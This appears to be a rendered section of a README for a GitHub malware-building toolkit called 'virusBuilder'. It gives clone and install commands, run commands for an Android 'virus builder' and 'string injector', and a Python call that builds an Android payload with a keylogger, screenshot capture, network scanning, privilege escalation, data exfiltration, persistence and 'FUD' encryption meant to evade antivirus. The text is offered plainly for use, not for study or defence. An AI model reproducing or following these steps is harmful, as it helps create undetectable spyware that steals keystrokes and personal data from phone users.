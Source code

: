 #### Step 2: Clone Repository on Android
```bash
git clone https://github.com/DUptain1993/virusBuilder.git
cd virusBuilder
```

#### Step 3: Install Dependencies
```bash
pip install -r requirements.txt
```

### Android Tools Usage

#### ARM64 Virus Builder
```bash
cd mobile_tools
python3 virusBuilder_arm64.py
```

**Features:**
- ARM64 native execution
- Android-specific payloads
- Mobile browser exploitation
- Android persistence mechanisms
- FUD encryption for mobile platforms

#### Android String Injector
```bash
cd arm64
python3 android_string_injector.py
```

**Features:**
- String encryption (AES, XOR, Base64, ROT13, Custom)
- String obfuscation (Split, Reverse, Scramble, Null, Junk)
- Injection techniques (String, Code, Resource, Manifest)
- Dynamic loading and reflection
- Vulnerability exploitation

### Android Payloads

#### Mobile Keylogger
```python
from mobile_tools.virusBuilder_arm64 import ARM64VirusBuilder

builder = ARM64VirusBuilder()
payload_options = {
    'mobile_keylogger': True,
    'mobile_screenshot': True,
    'mobile_network_scan': True,
    'android_privilege_esc': True,
    'mobile_data_exfil': True
}

builder.build_android_virus(
    filename="android_malware",
    target_arch="arm64-v8a",
    payload_options=payload_options,
    persistence_options={'android_service': True},
    obfuscation_level=3,
    fud_crypted=True
)
```
